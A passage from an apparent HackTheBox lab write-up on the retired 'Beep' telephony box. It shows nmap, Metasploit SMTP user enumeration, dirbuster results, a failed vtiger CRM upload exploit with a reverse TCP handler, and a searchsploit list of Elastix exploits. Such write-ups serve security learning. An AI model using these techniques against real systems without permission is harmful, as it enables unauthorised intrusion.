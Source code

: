 	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 350.40 seconds

A lot of things listening here. The webserver was running Elastix, an open source PBX (Private Branch Exchange...phone stuff).

I took a look at the SMTP server with __metasploit__:

	msf5 auxiliary(scanner/smtp/smtp_enum) > run

	[*] 10.10.10.7:25         - 10.10.10.7:25 Banner: 220 beep.localdomain ESMTP Postfix
	[+] 10.10.10.7:25         - 10.10.10.7:25 Users found: , adm, bin, daemon, fax, ftp, games, gdm, gopher, haldaemon, halt, lp, mail, news, nobody, operator, postgres, postmaster, sshd, sync, uucp, webmaster, www
	[*] beep:25               - Scanned 1 of 1 hosts (100% complete)
	[*] Auxiliary module execution completed

Nothing super useful there. I tried several other things with other open ports that I didn't take note of because they led nowhere. I also ran __dirb__ against the webserver but kept getting errors - I think this was likely because the cert is expired on this box (it was a retired htb machine while I was working on it).

I then tried __dirbuster__ and was able to get it running without a hitch. There are lots of interesting directories and after all of the enumeration to this point it is more than clear that this is a telephony server. Kinda cool. In a past life I managed a PBX and it was kind of neat just because the tech was so, uhh, ancient and straighforward.

Anyway, I kicked off a scan using the 
_/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt_
wordlist and came up with some interesting finds - vtigercrm being the one of most interest after looking into some of the others.

<img src="https://raw.githubusercontent.com/chadpierce/htb/master/beep/dirbuster-results.png" alt="dirbuster results" width="600"/>

## Exploitation

VTiger looked to be an opensource CRM - interesting - and the login page helpfully lets you know you're looking at version 5.1.0. I searched for exploits in __metasploit__ and came up with this:

	msf5 exploit(multi/http/vtiger_soap_upload) > run
	
	[*] Started reverse TCP handler on 10.10.x.x:4444 
	[-] Exploit failed [unreachable]: OpenSSL::SSL::SSLError SSL_connect returned=1 errno=0 state=error: wrong version number
	[*] Exploit completed, but no session was created.
	msf5 exploit(multi/http/vtiger_soap_upload) >

I thought this exploit should work, but was failing because of the bad ssl cert on the box that gave me issues with __dirb__.
Before sinking too much time into that I ran __searchsploit__ on Elastix. 

	msf5 exploit(multi/http/vtiger_soap_upload) > searchsploit elastix
	[*] exec: searchsploit elastix
	
	--------------------------------------- ----------------------------------------
	 Exploit Title                         |  Path
	                                       | (/usr/share/exploitdb/)
	--------------------------------------- ----------------------------------------
	Elastix - 'page' Cross-Site Scripting  | exploits/php/webapps/38078.py
	Elastix - Multiple Cross-Site Scriptin | exploits/php/webapps/38544.txt
	Elastix 2.0.2 - Multiple Cross-Site Sc | exploits/php/webapps/34942.txt
	Elastix 2.2.0 - 'graph.php' Local File | exploits/php/webapps/37637.pl
	Elastix 2.x - Blind SQL Injection      | exploits/php/webapps/36305.txt
	Elastix < 2.5 - PHP Code Injection     | exploits/php/webapps/38091.php
	FreePBX 2.10.0 / Elastix 2.2.0 - Remot | exploits/php/webapps/18650.py
	--------------------------------------- ----------------------------------------
	Shellcodes: No Result
